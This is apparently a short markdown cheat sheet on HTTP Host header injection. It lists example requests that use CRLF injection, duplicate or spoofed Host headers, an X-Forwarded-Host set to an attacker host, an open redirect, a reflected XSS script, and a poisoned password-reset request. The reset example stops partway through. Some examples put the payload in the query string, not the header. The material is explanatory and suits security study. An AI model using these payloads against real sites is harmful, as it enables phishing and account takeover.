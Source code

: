 # HOST HEADER INJECTION

It is a type of web security vulnerability that occurs when a web application improperly handles the "Host" header in HTTP requests. The "Host" header specifies the domain name of the server that the client is trying to reach. If an application does not validate or sanitize this header correctly, an attacker can manipulate it to perform malicious actions.

## Method to perform Host Header Injection

### 1. Malformed Host Header Value

Attackers can inject a malformed Host header value in the HTTP request. For instance, including a newline character can create a new header field, which may confuse the server.
```text
GET /index.html HTTP/1.1  
Host: www.example.com%0d%0aX-Forwarded-For: attacker.com  
```
### 2. Multiple Host Header Values
By injecting multiple Host header values, attackers can exploit servers that read more than one Host header. This can lead to unexpected behavior.
```text
GET /example HTTP/1.1  
Host: malicioussite  
Host: vulnerable-website.com  
```
### 3.Spoofed Host Header
Attackers can spoof the Host header to make it appear as if the request is coming from a trusted domain. This can trick the server into processing the request as legitimate.
```text
GET /index.html HTTP/1.1  
Host: www.example.com.attacker.com  
```
### 4. Using X-Forwarded-Host Header
The X-Forwarded-Host header can be manipulated to inject malicious input while bypassing validation on the Host header.
```text
GET / HTTP/1.1  
Host: vulnerable-website.com  
X-Forwarded-Host: attacker.com  
```
### 5. Open Redirects
By injecting a malicious Host header, attackers can exploit open redirect vulnerabilities to redirect users to phishing sites.

`Request:`
```text
GET /redirect?url=http://malicious.com HTTP/1.1  
Host: vulnerable-website.com
``` 
`Response:`

The server may redirect the user to the attacker-controlled site, leading to potential credential theft.

### 6. Cross-Site Scripting (XSS)
By injecting a crafted Host header, attackers can exploit XSS vulnerabilities in applications that reflect the Host header in their responses.

`Request:`
```text
GET /search?q=<script>alert('XSS')</script> HTTP/1.1  
Host: vulnerable-website.com  
```
`Response:`

If the application reflects the input without sanitization, it may execute the injected script in the user's browser.

### 7. Account takeover via reset password

A user requests a password reset link via email:
```text
POST /reset-password HTTP/1.1
Host: *exploit-server-ip*
Content-Type: application/json

{"email": "victim@example.com"}
```
The application generates a password reset link like this:
```text
https://example.com/reset?token=ABC123
```


